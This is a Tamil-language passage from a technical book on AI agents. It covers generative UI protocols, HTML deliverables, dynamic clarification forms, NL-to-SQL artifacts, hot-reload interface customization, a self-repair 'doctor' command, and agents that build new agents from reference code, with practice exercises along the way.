குழப்பத்தை தெளிவுபடுத்த வேண்டும்: AG-UI (Agent-User Interaction, CopilotKit ஆல் முன்மொழியப்பட்டது), அதன் ஒத்த பெயர் இருந்தாலும், இது ஒரு UI description language அல்ல, மாறாக Agent-ன் இயக்க நிலையை (செய்திகள், tool calls, state patches) frontend-க்கு streaming செய்வதற்கான ஒரு துணை **event/transport protocol** ஆகும். இது A2UI போன்ற UI payloads-ஐயும் எடுத்துச் செல்ல முடியும். எனவே, அவை ஒன்றுக்கொன்று நிரப்பியாக உள்ளன, ஒரே வகையைச் சேர்ந்தவை அல்ல, மேலும் ஒரே "declarative interface protocol" ஆக ஒன்றாக பட்டியலிடப்படக்கூடாது.

இத்தகைய protocols-ன் மைய வடிவமைப்புக் கொள்கை **security-first** ஆகும்: client ஆனது நம்பகமான component catalog-ஐ (எ.கா., Card, Button, TextField, Table) பராமரிக்கிறது, மேலும் Agent ஆனது catalog-ல் ஏற்கனவே உள்ள கூறுகளை மட்டுமே வழங்கக் கோர முடியும், தன்னிச்சையான குறியீட்டை செலுத்த முடியாது. Client ஆனது Agent ஆல் உருவாக்கப்பட்ட தன்னிச்சையான HTML-ஐ இயக்காமல், அதன் சொந்த native components-ஐப் பயன்படுத்தி வழங்குகிறது. இந்த protocols பொதுவாக **cross-platform** (ஒரே description React, Flutter, native apps-ல் வழங்கப்படுகிறது) மற்றும் **incremental generation** (streaming JSONL வடிவம், பெறும்போதே வழங்கப்படுகிறது) ஆகியவற்றையும் ஆதரிக்கின்றன.

நிச்சயமாக, declarative approach ஆனது தரப்படுத்தப்பட்ட தொடர்பு சூழ்நிலைகளுக்கு (forms, tables, cards) ஏற்றது, அதேசமயம் மிகவும் தனிப்பயனாக்கப்பட்ட தேவைகளுக்கு (எ.கா., தனிப்பயன் visualizations, game interfaces), நேரடி code generation மிகவும் நெகிழ்வான தேர்வாக உள்ளது. கீழே இரண்டு முறைகளின் குறிப்பிட்ட பயன்பாடுகள் உள்ளன.

**HTML மூலம் முடிவுகளை வழங்குதல்: Markdown அறிக்கைகளை மாற்றுதல்.** Generative UI என்பது தொடர்பு கொள்ளும் போது மட்டுமல்ல, Agent-ன் இறுதி **deliverable**-ன் வடிவத்தையும் மாற்றுகிறது. பாரம்பரியமாக, ஒரு பணியை முடித்த பிறகு, ஒரு Agent ஒரு Markdown அறிக்கை ஆவணத்தை உருவாக்கும்; ஆனால் நேர்கோட்டில் அமைக்கப்பட்ட Markdown பக்கங்களைப் படிப்பது மிகவும் பயனர் நட்பு அல்ல. Agents frontend குறியீட்டை உருவாக்கும் திறன் பெறுவதால், அதிகமான நடைமுறைகள் அவற்றை நேரடியாக HTML ஐ உருவாக்கச் செய்வதை நோக்கி மாறுகின்றன. Markdown உடன் ஒப்பிடும்போது, HTML deliverables பல தனித்துவமான நன்மைகளைக் கொண்டுள்ளன. முதலில், **interactive demonstrations**: அவை கணினி எவ்வாறு செயல்படுகிறது என்பதை ஒரு செயல்படக்கூடிய வடிவத்தில் நேரடியாகக் காட்ட முடியும், இதை பயனர்கள் பெரும்பாலும் ஒரு பார்வையில் புரிந்துகொள்வார்கள், நீண்ட உரை விளக்கங்களை விட மிகவும் சிறந்தது. இரண்டாவது, **better data visualization**: தரவை வழங்க அட்டவணைகளுக்குப் பதிலாக விளக்கப்படங்களைப் பயன்படுத்துதல், மற்றும் பயனர்கள் ஆர்வமுள்ள விவரங்களை உலாவவும், வடிகட்டவும், ஆழமாக ஆராயவும் அனுமதிக்கும் interactive கூறுகளை உருவாக்குதல். மூன்றாவது, **continuously improvable deliverables**: ஒரு HTML வலைத்தளம் என்பது ஒரு பணியின் முடிவில் மட்டுமே உருவாக்கப்படும் ஒரு நிலையான artifact ஆக இருக்க வேண்டியதில்லை; வேலை முன்னேறும்போது Agent ஆல் தொடர்ந்து நிரப்பப்பட்டு மேம்படுத்தப்படலாம்.

ஆசிரியரின் சொந்த ஆய்வறிக்கை எழுதும் அனுபவத்தை உதாரணமாக எடுத்துக் கொண்டால்: ஒவ்வொரு ஆராய்ச்சித் திட்டத்திற்கும், ஆசிரியர் ஒரு interactive வலைத்தளத்தை[^ch5-3] பராமரிக்கிறார். இது இறுதி deliverable ஆகவும், ஆராய்ச்சி செயல்முறை முழுவதும் ஒரு வாழும் ஆவணமாகவும் செயல்படுகிறது—ஆசிரியர் சோதனைகள் முன்னேறும்போது அதைத் தொடர்ந்து புதுப்பிக்க Agent-ஐ வைத்திருக்கிறார். இந்த வலைத்தளம் குறைந்தது மூன்று நோக்கங்களுக்கு உதவுகிறது. முதலில், **experiment data traceability**: ஒவ்வொரு சோதனையின் குறிப்பிட்ட தரவு, பயன்படுத்தப்பட்ட prompts, மற்றும் LLM-ன் மூல பதில்கள் அனைத்தையும் வலைத்தளத்தில் ஒவ்வொன்றாகப் பார்க்க முடியும்; அவற்றை விரித்து வைப்பது தரவு கட்டமைப்பு, வடிவம் மற்றும் விநியோகத்தில் உள்ள சிக்கல்களைக் கண்டறிவதையும், LLM-ன் பதில்கள் மற்றும் நீதிபதியின் மதிப்பெண்ணில் முறையான சார்புகள் உள்ளதா என்பதைப் பார்ப்பதையும் எளிதாக்குகிறது. இரண்டாவது, **training metric monitoring**: பல்வேறு பயிற்சி வளைவுகளை நேரடியாக வலைப்பக்கத்தில் காண்பித்தல், model-ன் **internal health metrics** சரியாக உள்ளதா என்பதை வசதியாக உறுதிப்படுத்த. "Internal medicine" என்ற மருத்துவச் சொல்லைக் கடன் வாங்கினால், இந்த metrics என்பது பயிற்சி செயல்முறையின் ஆரோக்கியத்தைப் பிரதிபலிக்கும் உள் சமிக்ஞைகளைக் குறிக்கிறது, அதாவது training மற்றும் validation loss, gradient norm, learning rate, model-ன் perplexity (model தான் உருவாக்கிய உள்ளடக்கத்தில் அதன் "நம்பிக்கையின்" அளவீடு), மற்றும் reinforcement learning-ல், reward, KL divergence, policy entropy போன்றவை. இவை பணி துல்லியம் போன்ற இறுதி விளைவு metrics-ஐ விட வேறுபடுகின்றன: ஒரு சுகாதார பரிசோதனையில் உள்ள பல்வேறு உடலியல் குறிகாட்டிகள் ஒரு நபரின் வெளிப்புற செயல்திறனுடன் தொடர்புடையது போலவே, internal health metrics பெரும்பாலும் non-converging loss, exploding gradients, அல்லது training collapse போன்ற சிக்கல்களை மிகவும் முன்னதாகவே வெளிப்படுத்த முடியும். மூன்றாவது, **operational principle demonstration**: முழு அமைப்பின் செயல்பாட்டுக் கொள்கையை காட்சிப்படுத்தல் மூலம் வழங்குதல், இந்த AI-ஆல் கட்டப்பட்ட அமைப்பின் கட்டமைப்பை ஒரு பார்வையில் தெளிவாகப் பார்க்க அனுமதிக்கிறது.

[^ch5-3]: ஆசிரியரின் ஆராய்ச்சி திட்ட இணையதளத்தை https://01.me/research/ இல் காணலாம், அங்கு ஒவ்வொரு திட்டத்திற்கும் தொடர்ந்து புதுப்பிக்கப்படும் ஊடாடும் இணையதளம் உள்ளது.

**பயனரின் நோக்கத்தை தெளிவுபடுத்துதல்.**

பயனரின் தேவைகள் தெளிவற்றதாகவோ அல்லது முழுமையற்றதாகவோ இருக்கும்போது, Agent தேவையான தகவல்களை சேகரிக்க கேள்விகள் கேட்டு தெளிவுபடுத்த வேண்டும். OpenAI Deep Research போன்ற தயாரிப்புகள் பொதுவாக உரை அடிப்படையிலான Q&A ஐப் பயன்படுத்துகின்றன, ஆனால் இதற்கு தெளிவான வரம்புகள் உள்ளன: செயல்திறனைப் பொறுத்தவரை, ஒவ்வொரு கேள்விக்கும் ஒரு உரையாடல் சுற்று தேவைப்படுகிறது, எனவே பத்து தெளிவுபடுத்தும் புள்ளிகளுக்கு பத்து தொடர்புகள் தேவை; வெளிப்பாட்டுத்தன்மையைப் பொறுத்தவரை, சில கேள்விகள் சார்புகளைக் கொண்டுள்ளன (எ.கா., "பயண இடத்தைத் தேர்ந்தெடுப்பது" "போக்குவரத்து முறை"க்கான விருப்பங்களைப் பாதிக்கிறது), இதை எளிய உரை வெளிப்படுத்த சிரமப்படுகிறது.

குறியீடு உருவாக்கம் மூலம், Agent உரை அடிப்படையிலான Q&A ஐ மாற்றுவதற்கு கட்டமைக்கப்பட்ட ஊடாடும் இடைமுகங்களை உருவாக்க முடியும். படம் 5-8 மாறும் படிவ உருவாக்க செயல்முறையை விளக்குகிறது, Agent எவ்வாறு தெளிவுபடுத்தும் கேள்விகளை ஒரே முறையில் நிரப்பக்கூடிய கட்டமைக்கப்பட்ட இடைமுகமாக மாற்றுகிறது என்பதைக் காட்டுகிறது. Agent பல்வேறு உள்ளீட்டு கட்டுப்பாடுகளைக் கொண்ட HTML படிவத்தை உருவாக்குகிறது — திறந்த தகவலுக்கான உரை பெட்டிகள், முன் வரையறுக்கப்பட்ட விருப்பங்களுக்கான dropdown மெனுக்கள், பல தேர்வுகளுக்கான checkboxes, மற்றும் எளிமைப்படுத்தப்பட்ட நேர உள்ளீட்டிற்கான date pickers. மேலும் சென்று, Agent அடுக்கு படிவங்களை உருவாக்க முடியும் — JavaScript மூலம் மாறும் தர்க்கத்தை செயல்படுத்துகிறது: தேர்வுகளின் அடிப்படையில் தானாகவே அடுத்தடுத்த கேள்விகளைக் காட்டுவது அல்லது மறைப்பது, கிடைக்கக்கூடிய விருப்பங்களை மாறும் வகையில் புதுப்பிப்பது. பயனர் முழு படிவத்தையும் ஒரே முறையில் நிரப்புகிறார், பல உரையாடல் சுற்றுகளை நீக்குகிறார், மேலும் தேவையான அனைத்து தகவல்களையும் கேள்விகளுக்கு இடையேயான தர்க்கரீதியான உறவுகளையும் தெளிவாகக் காண முடிகிறது.




> **சோதனை 5-9 ★★: மாறும் படிவங்களுடன் கூடிய நோக்கம் தெளிவுபடுத்தல் அமைப்பு**
>
> **சோதனை நோக்கம்**: மாறும் HTML படிவங்களை உருவாக்குவதன் மூலம் பயனரின் நோக்கத்தை தெளிவுபடுத்தும் Agent இன் திறனை சரிபார்க்கவும்.
>
> **தொழில்நுட்ப அணுகுமுறை**: Agent பயனரின் கோரிக்கையை பகுப்பாய்வு செய்கிறது, தெளிவுபடுத்தும் புள்ளிகளை அடையாளம் காண்கிறது, மற்றும் அடுக்கு தர்க்கத்துடன் கூடிய படிவ குறியீட்டை உருவாக்குகிறது. Frontend அதை வழங்குகிறது, பயனர் ஒருமுறை சமர்ப்பிக்கிறார், மேலும் Agent JSON தரவை பகுப்பாய்வு செய்து பணியைத் தொடர்கிறது.
>
> **ஏற்பு அளவுகோல்கள்**: பயனர் "நான் பெய்ஜிங்கிற்கு ஒரு விமான டிக்கெட் முன்பதிவு செய்ய விரும்புகிறேன்" என்று உள்ளிடுகிறார். Agent பின்வருவனவற்றைக் கொண்ட ஒரு படிவத்தை உருவாக்குகிறது: புறப்படும் நகரம் (உரை உள்ளீடு), புறப்படும் தேதி (date picker), பயண வகை (radio: ஒருவழி/சுற்றுப்பயணம்), திரும்பும் தேதி ("சுற்றுப்பயணம்" தேர்ந்தெடுக்கப்பட்டால் மட்டுமே காட்டப்படும்). பயனர் அனைத்து தகவல்களையும் ஒரே முறையில் சமர்ப்பிக்கிறார்.
>
**SQL வினவல்களை உருவாக்குதல்.**

Database querying என்பது code generation மூலம் interaction அனுபவத்தை கணிசமாக மேம்படுத்தக்கூடிய ஒரு சூழ்நிலையாகும். பாரம்பரிய database access GUI tools அல்லது handwritten SQL ஐ நம்பியுள்ளது; முந்தையது இயக்க சிரமமானது, மற்றும் பிந்தையது பயனருக்கு சிறப்பு அறிவு தேவைப்படுகிறது. ஒரு Agent natural language ஐ SQL ஆக மொழிபெயர்க்க முடியும், ஆனால் இங்கே ஒரு முக்கியமான design choice உள்ளது: Agent SQL ஐ execute செய்து, பின்னர் முடிவுகளை natural language இல் விவரிக்க வேண்டுமா, அல்லது Agent SQL code ஐ frontend நேரடியாக execute செய்வதற்கான artifact ஆக உருவாக்க வேண்டுமா?

முதல் அணுகுமுறை மிகவும் "intelligent" ஆகத் தோன்றுகிறது, ஆனால் மிகவும் திறனற்றது—query result ஒரு பெரிய table இல் ஆயிரக்கணக்கான rows ஐக் கொண்டிருக்கலாம். LLM இதைப் படித்து text இல் விவரிப்பது, அதிக எண்ணிக்கையிலான tokens ஐப் பயன்படுத்துவது மட்டுமல்லாமல், நீண்ட நேரம் எடுப்பதோடு, மிக முக்கியமாக, LLM தரவை "transcribe" செய்வதில் பிழைகள் ஏற்பட வாய்ப்புள்ளது. ஒரு சிறந்த அணுகுமுறை **artifact pattern** ஆகும். Figure 5-9 ஒரு SQL query Agent இன் workflow ஐக் காட்டுகிறது: Agent தரவைப் படிப்பதில்லை. மாறாக, அது ஒரு SQL query code ஐ உருவாக்கி, இந்த code ஐ ஒரு சுயாதீன "artifact" ஆக system க்கு வழங்குகிறது. System இந்த SQL ஐ எடுத்து database ஐ நேரடியாக query செய்து, மீட்டெடுக்கப்பட்ட தரவை பயனருக்குத் தெரியும் table ஆக வழங்குகிறது. இந்த முழு செயல்முறையிலும், தரவு database இலிருந்து user interface க்கு நேரடியாகப் பாய்கிறது, LLM "middleman" ஐ முற்றிலும் தவிர்க்கிறது—LLM query statement ஐ எழுதுவதற்கு மட்டுமே பொறுப்பு, ஆயிரக்கணக்கான rows தரவைப் படித்து பின்னர் அவற்றை பயனருக்கு மீண்டும் சொல்வதற்கு அல்ல. இது வேகமானது மற்றும் துல்லியமானது.




மேலும் சென்று, Agent இரண்டு artifacts ஐ ஒரு pipeline ஆக உருவாக்க முடியும்: SQL query + visualization code (எ.கா., bar chart). Frontend SQL முடிவுகளை நேரடியாக visualization code க்கு அனுப்புகிறது. LLM code ஐ உருவாக்குவதற்கு மட்டுமே பொறுப்பு, தரவு பரிமாற்றத்தில் பங்கேற்பதற்கு அல்ல—இதுவே code generation ஐ interface ஆகப் பயன்படுத்துவதன் சாராம்சமாகும்.

> **Experiment 5-10 ★★: Natural Language Interaction ERP Agent**
>
> ERP (Enterprise Resource Planning) மென்பொருள் வணிகங்களுக்கு ஒரு முக்கியமான அமைப்பாகும், பொதுவாக GUI interface ஐப் பயன்படுத்துகிறது, அங்கு சிக்கலான செயல்பாடுகளுக்கு பல mouse clicks தேவைப்படுகின்றன. ஒரு AI Agent பயனரின் natural language queries ஐ SQL statements ஆக மாற்றி, தானியங்கி querying ஐ செயல்படுத்த முடியும்.
>
> Requirements: இரண்டு tables ஐக் கொண்ட PostgreSQL database ஐ அமைக்கவும்: (1) Employee table, employee ID, name, department, level, hire date, resignation date (NULL என்பது தற்போது பணியில் இருப்பதைக் குறிக்கிறது); (2) Salary table, employee ID, pay date, salary (மாதத்திற்கு ஒரு பதிவு). Agent தானாகவே பதிலளிக்கிறது:
>
> 1. ஒவ்வொரு employee இன் சராசரி tenure என்ன?
> 2. ஒவ்வொரு department இல் எத்தனை active employees உள்ளனர்?
> 3. எந்த department அதிக சராசரி employee level ஐக் கொண்டுள்ளது?
> 4. இந்த ஆண்டு மற்றும் கடந்த ஆண்டு ஒவ்வொரு department இல் எத்தனை புதிய employees சேர்ந்தனர்?
> 5. முந்தைய ஆண்டின் மார்ச் முதல் கடந்த ஆண்டின் மே வரை department A க்கான சராசரி salary என்ன?
> 6. எந்த துறைக்கு கடந்த ஆண்டு அதிக சராசரி சம்பளம் இருந்தது, A அல்லது B?
> 7. இந்த ஆண்டு ஒவ்வொரு நிலையிலும் உள்ள ஊழியர்களின் சராசரி சம்பளம் என்ன?
> 8. கடந்த மாதத்தில், ஒரு வருடத்திற்கும் குறைவான, ஒன்று முதல் இரண்டு வருடங்கள், மற்றும் இரண்டு முதல் மூன்று வருடங்கள் வரை பணியில் இருந்த ஊழியர்களின் சராசரி சம்பளம் என்ன?
> 9. கடந்த ஆண்டிலிருந்து இந்த ஆண்டு வரை அதிக சம்பள உயர்வு பெற்ற 10 ஊழியர்கள் யார்?
> 10. செலுத்தப்படாத ஊதிய வழக்குகள் ஏதேனும் உள்ளதா (ஒரு மாதத்தில் பணியில் இருந்தும் சம்பள பதிவு இல்லை)?
>
**மாறும் வகையில் மென்பொருளை உருவாக்குதல்.**

குறியீடு உருவாக்கும் திறனின் இறுதிப் பயன்பாடு, Agent ஆனது மென்பொருளை முழுவதுமாக மாறும் வகையில், புதிதாக உருவாக்க அனுமதிப்பதாகும். Anthropic இன் "Imagine with Claude" இந்த சாத்தியத்தின் எல்லையை நிரூபிக்கிறது: பயனர் ஒரு கோரிக்கையை வைக்கிறார், Claude உடனடியாக frontend இடைமுகத்தையும் தொடர்பு தர்க்கத்தையும் உருவாக்குகிறது, பயனர் உருவாக்கப்பட்ட மென்பொருளுடன் தொடர்பு கொள்கிறார், மேலும் Claude செயல்பாட்டு முடிவுகளைக் காட்டும் புதிய இடைமுகத்தை உருவாக்க குறியீட்டை மாற்றியமைக்கிறது. முழு செயல்முறையிலும், பயனர் ஒரு பயன்பாடு ஒன்றுமில்லாமல் உருவாக்கப்பட்டு தொடர்ந்து வளர்ச்சியடைவதைக் காண்கிறார்.

இருப்பினும், இந்த முழுமையான மாறும் உருவாக்க மாதிரியானது அதிக செலவு மற்றும் தாமதத்தைக் கொண்டுள்ளது, இது திறனின் எல்லையை நிரூபிக்கும் ஒரு பரிசோதனையாக மிகவும் பொருத்தமானது. மிகவும் நடைமுறைக்குரிய திசை **ஏற்கனவே உள்ள கட்டமைப்புகளின் அடிப்படையில் தனிப்பயனாக்கப்பட்ட மாற்றம்** ஆகும். இந்த "அரை-தனிப்பயன்" மாதிரியானது அடிப்படை மென்பொருளின் நிலைத்தன்மையைத் தக்கவைத்துக்கொண்டு, குறிப்பிட்ட பரிமாணங்களில் பயனர் கட்டுப்பாட்டைத் திறக்கிறது—பயனர் "பொத்தானை நீலமாக மாற்று," "sidebars இல் ஒரு shortcut மெனுவைச் சேர்," "எழுத்துருவை மேலும் படிக்கக்கூடிய பாணியாக மாற்று" என்று கூறுகிறார். Agent கோரிக்கையைப் புரிந்துகொண்டு frontend குறியீட்டை மாற்றியமைக்கிறது, மேலும் HMR (Hot Module Replacement, பகுதி சூடான மாற்றீடு, பயன்பாட்டு நிலையைப் பாதுகாத்தல், முழு பக்க புதுப்பிப்பு இல்லாமல் நடைமுறைக்கு வருதல்) உடனடியாக நடைமுறைக்கு வருகிறது. இது "எல்லோருக்கும் ஒரே அளவு" என்ற நிலையான தயாரிப்பை "ஆயிரம் முகங்கள் ஆயிரம் பேருக்கு" என்ற தனிப்பயனாக்கப்பட்ட அனுபவமாக மாற்றுகிறது.

> **சோதனை 5-11 ★★: உரையாடல் இடைமுக தனிப்பயனாக்க அமைப்பு**
>
> **சோதனை இலக்கு**: பயனர்கள் இயற்கை மொழி உரையாடல் மூலம் மென்பொருள் இடைமுகத்தை உடனடியாக தனிப்பயனாக்கும் திறனை செயல்படுத்துதல், hot-reload வழிமுறைகளால் ஆதரிக்கப்படும் குறியீடு உருவாக்கம் தனிப்பயனாக்கப்பட்ட பயனர் அனுபவங்களை வழங்குவதில் எவ்வளவு பயனுள்ளதாக இருக்கிறது என்பதை சரிபார்த்தல்.
>
> **தொழில்நுட்ப அணுகுமுறை**: ஒரு அடிப்படை chatbot பயன்பாட்டை (React frontend + FastAPI backend) உருவாக்கவும், frontend மற்றும் backend இரண்டும் hot reload ஐ ஆதரிக்கும் வளர்ச்சி முறையில் இயங்குகின்றன (React இன் HMR, FastAPI இன் reload). பயனர்கள் உரையாடலின் போது UI தனிப்பயனாக்க தேவைகளை (நிறங்கள், எழுத்துருக்கள், அமைப்பு, கூறு நிலைகள் போன்றவை) முன்மொழிகின்றனர். Agent தானாகவே குறியீட்டை மாற்றியமைக்கிறது. hot-reload வழிமுறை தானாகவே கோப்பு மாற்றங்களைக் கண்டறிகிறது, frontend மறுதொகுப்பு செய்து புதுப்பிக்கிறது, மேலும் பயனர் இடைமுக மாற்றங்களை நிகழ்நேரத்தில் காண்கிறார். பல சுற்று மறுமுறை தனிப்பயனாக்கத்தை ஆதரிக்கிறது.
### Code உருவாக்கும் Code: Agent Bootstrapping

முந்தைய பகுதிகள் பல்வேறு துறைகளில்—கணித பகுத்தறிவு முதல் ஆவண உருவாக்கம் மற்றும் இடைமுக தனிப்பயனாக்கம் வரை—code உருவாக்கத்தின் பயன்பாட்டை நிரூபித்தன. இந்த திறன்களை அதன் எல்லைக்கு தள்ளினால், ஒரு இயற்கையான கேள்வி எழுகிறது: ஒரு Agent மற்றொரு Agent-ஐ உருவாக்க code-ஐ பயன்படுத்த முடியுமா?

முதலில், அத்தியாயம் 8-உடன் பணிப் பகிர்வை தெளிவுபடுத்த வேண்டும். இந்த பகுதி, Agents தங்கள் சொந்த வகையான Agents-ஐ **சரிசெய்து உருவாக்க** code-ஐ பயன்படுத்துவதைப் பற்றி விவாதிக்கிறது—சுய-சரிசெய்தல், சுய-பிரதிபலிப்பு மற்றும் புதிய Agents-ஐ தேவைக்கேற்ப உருவாக்குதல்—இதன் இலக்கு Agent-இன் code மற்றும் கட்டமைப்பு ஆகும். அத்தியாயம் 8-இன் "சுய-பரிணாமம்" வேறுபட்ட விஷயமாகும், இது ஒரு Agent தனது திறன்களை (அனுபவத்தை சேகரித்தல், prompts-ஐ மேம்படுத்துதல், tool நூலகத்தை உருவாக்குதல்) **model எடைகளை மாற்றாமல்** தொடர்ந்து வளர்த்துக் கொள்ளும் திறனைக் குறிக்கிறது, இதன் இலக்கு Agent-இன் அறிவு மற்றும் உத்திகள் ஆகும். இரண்டையும் "பரிணாமம்" என்று அழைக்கலாம், ஆனால் அத்தியாயம் 8-இன் தலைப்புடன் குழப்பத்தைத் தவிர்க்க, இந்த பகுதி இந்த "code-ஐ உருவாக்கும் Agent" திறனைக் குறிக்க **bootstrapping** என்ற சொல்லைப் பயன்படுத்துகிறது.



**Agent Self-Repair: OpenClaw Doctor.**

Agent bootstrapping-க்கு ஒரு முக்கியமான முன்நிபந்தனை சுய-சரிசெய்யும் திறன் ஆகும். OpenClaw-இல் உள்ள `doctor` கட்டளை இந்த திறனை உள்ளடக்கியது—இது தானாகவே மூன்று வகையான சிக்கல்களைக் கண்டறிய முடியும்:

- **Configuration முரண்பாடுகள்**: காலாவதியான OAuth tokens, பழைய configuration வடிவங்கள், port முரண்பாடுகள்
- **நிலை சிக்கல்கள்**: காலாவதியான session lock கோப்புகள், காணாமல் போன plugin சார்புகள்
- **சேவை ஆரோக்கிய சிக்கல்கள்**: Gateway இயங்கவில்லை, காணாமல் போன sandbox படங்கள்

பின்னர் இது ஒரு அடுக்கு சரிசெய்தல் உத்தி மூலம் அவற்றை தானாகவே தீர்க்கிறது: பாதுகாப்பான திருத்தங்கள் (configuration இயல்பாக்கம், lock கோப்பு சுத்தம்) தானாகவே செயல்படுத்தப்படுகின்றன; ஆபத்தான செயல்பாடுகள் (சேவை மறுதொடக்கம், கட்டாய configuration மேலெழுதுதல்) பயனர் உறுதிப்படுத்தல் தேவைப்படுகிறது.

இதை மிகைப்படுத்தக் கூடாது: காலாவதியான tokens, lock கோப்புகள் மற்றும் port முரண்பாடுகள் போன்ற அதிக அதிர்வெண் சிக்கல்கள் தெளிவான கண்டறிதல் விதிகள் மற்றும் நிலையான சரிசெய்தல் நடவடிக்கைகளைக் கொண்டுள்ளன. `doctor` **முதலில் இவற்றை ஒரு தொகுப்பு உறுதியான சோதனைகளுடன் மூடுகிறது**—இது அடிப்படையில் பாரம்பரிய செயல்பாட்டு scripts-ஐ விட வேறுபட்டதல்ல. Agent திறனின் உண்மையான வெளிப்பாடு இரண்டாவது அடுக்கில் உள்ளது: உறுதியான விதிகளால் மூடப்படாத கடினமான பிரச்சினைகளுக்கு, `doctor` அவற்றை ஒரு LLM-க்கு ஒப்படைத்து error logs-ஐ பகுப்பாய்வு செய்யவும், configuration கோப்புகளின் பொருளைப் புரிந்துகொள்ளவும், காரண உறவுகளை ஊகிக்கவும், இலக்கு சரிசெய்தல் திட்டங்களை உருவாக்கவும் செய்கிறது. உறுதியான சோதனைகள் பொதுவான பிரச்சினைகளுக்கு நிலையான திருத்தங்களை உறுதி செய்கின்றன, அதே நேரத்தில் LLM கடினமான பிரச்சினைகளின் நீண்ட வாலைக் கையாள்கிறது—இந்த இரண்டு அடுக்குகளும் ஒன்றாக வேலை செய்வதால், `doctor --fix` பொதுவான gateway சிக்கல்களில் கணிசமான பகுதியை தானாகவே தீர்க்க முடியும். இந்த "Agent சரிசெய்யும் Agent" மாதிரியானது, Agent-இன் இலக்கு வெளிப்புற அமைப்பாக இல்லாமல் அதன் சொந்த இயக்க சூழலாக இருக்கும்போது, சுய-சரிசெய்தலை ஒரு அமைப்பு adapter-இலிருந்து Agent bootstrapping-க்கான உள்கட்டமைப்பாக மேம்படுத்துகிறது.

**Agent ஒன்று மற்றொரு Agent ஐ உருவாக்குவதற்கான முக்கிய நுட்பங்கள்.**

உயர்தரமான Agent ஒன்றை உருவாக்குவது, சாதாரண பயன்பாட்டுக் குறியீட்டை உருவாக்குவதை விட மிகவும் சிக்கலானது. ஏனெனில், இதற்கு Agent கட்டமைப்பு முறைகள், சிறந்த நடைமுறைகள் மற்றும் பொதுவான குறைபாடுகள் பற்றிய ஆழமான புரிதல் தேவைப்படுகிறது. இந்த domain-specific நிபுணத்துவம் இல்லாமல், மிகவும் சக்திவாய்ந்த குறியீடு உருவாக்கும் models கூட கடுமையான கட்டமைப்பு குறைபாடுகளைக் கொண்ட Agents ஐ உருவாக்க முடியும். பொதுவான குறைபாடுகள் பின்வருமாறு:

1.  **சாதாரண context மேலாண்மை**: Chapter 2 இல் விவாதிக்கப்பட்ட நிலையான context format ஐப் பயன்படுத்தத் தவறுதல், trajectories ஐ context இல் plain text ஆக அடைத்தல், structured messages இலிருந்து KV Cache optimizations ஐப் புறக்கணித்தல், மற்றும் tool call loops இல் boundary bugs ஐக் கொண்டிருத்தல்
2.  **தரமற்ற tool வடிவமைப்பு**: தெளிவற்ற விளக்கங்கள், பயன்பாட்டு எல்லை வழிமுறைகள் மற்றும் எதிர்மறை பட்டியல்கள் இல்லாமை, மற்றும் concrete examples இல்லாத parameters
3.  **காலாவதியான தொழில்நுட்பத் தேர்வுகள்**: பயிற்சி தரவுகளில் இருந்து மிகவும் பொதுவான ஆனால் காலாவதியான models மற்றும் APIs ஐப் பயன்படுத்தும் போக்கு. தீர்வு: ஒரு SOTA knowledge base ஐப் பராமரிக்கவும் அல்லது Agent ஐ search capabilities உடன் சித்தப்படுத்தவும்
4.  **வெளிப்புற ecosystem உடனான தொடர்பின்மை**: Deprecated APIs, பராமரிக்கப்படாத libraries, அல்லது குறைபாடுள்ள patterns ஐப் பயன்படுத்துதல்

இந்தச் சிக்கல்களைத் தீர்ப்பதற்கான மிகச் சிறந்த வழி, prompt இல் அனைத்து விதிகளையும் விரிவாகப் பட்டியலிடுவது அல்ல, மாறாக **உயர்தரமான Agent implementations ஐ reference examples ஆக வழங்குவதாகும்**. இது code generation Agent ஐ பூஜ்ஜியத்திலிருந்து தொடங்குவதற்குப் பதிலாக, அவற்றை மாற்றியமைக்க வழிகாட்டுகிறது.

"Example-based generation" தெளிவான நன்மைகளைக் கொண்டுள்ளது: example code ஆனது சிறந்த நடைமுறைகளின் கேரியர் ஆகும். ஒரு Agent ஒரு example ஐ மாற்றியமைக்கும்போது, பூஜ்ஜியத்திலிருந்து தொடங்குவதை விட சரியான முடிவுகளை எட்டுவதற்கான வாய்ப்புகள் அதிகம். நல்ல கட்டமைப்புத் தேர்வுகள் இயற்கையாகவே பாதுகாக்கப்படுகின்றன, prompt இல் ஒவ்வொரு விதியையும் குறிப்பிட வேண்டிய அவசியமில்லை.

ஒரு Agent ஒரு புதிய Agent ஐ உருவாக்கும் பணியைப் பெறும்போது, அது முதலில் அதன் சொந்த குறியீட்டை (அல்லது பிற சரிபார்க்கப்பட்ட, உயர்தரமான implementations) நகலெடுத்து, பின்னர் இலக்கு மாற்றங்களைச் செய்ய வேண்டும்: புதிய பாத்திரத்துடன் பொருந்த system prompt ஐ சரிசெய்தல், புதிய செயல்பாடுகளுக்கு ஏற்ப tools ஐ மாற்றுதல் அல்லது சேர்த்தல், கட்டமைப்பு கட்டமைப்பைப் பாதுகாத்து business logic ஐ மாற்றியமைத்தல். இந்த "self-replication with adaptive modification" pattern ஆனது, புதிய Agent முக்கிய தொழில்நுட்ப நன்மைகளைப் பெறுவதையும், குறிப்பிட்ட பரிமாணங்களில் வேறுபடுவதையும் உறுதி செய்கிறது—உயிரியலில் mutation உடன் gene replication போன்றது.

> **சோதனை 5-12 ★★★: Agents ஐ உருவாக்கக்கூடிய ஒரு Agent ஐ உருவாக்குதல்**
>
> **சோதனை இலக்கு**: Metaprogramming (மற்ற நிரல்களை உருவாக்கும் அல்லது மாற்றும் நிரல்களை எழுதும் திறன்) திறன்களைக் கொண்ட ஒரு Coding Agent ஐ உருவாக்கவும். இது பயனர் தேவைகளின் அடிப்படையில் புதிய Agent அமைப்புகளை தானாகவே உருவாக்கவும், சிறந்த நடைமுறைகளைப் பின்பற்றுவதை உறுதி செய்யவும் உதவும்.
>
> **தொழில்நுட்ப அணுகுமுறை**: Coding Agent க்கு உயர்தரமான Agent implementations ஐ reference examples ஆக வழங்கவும் (ch5/coding-agent project ஐப் பயன்படுத்தலாம்). ஒரு புதிய Agent ஐ உருவாக்கும் பணி வழங்கப்படும்போது, Agent முதலில் இந்த example code ஐ நகலெடுத்து, பின்னர் பயனரின் குறிப்பிட்ட தேவைகளின் அடிப்படையில் இலக்கு மாற்றங்களைச் செய்கிறது.
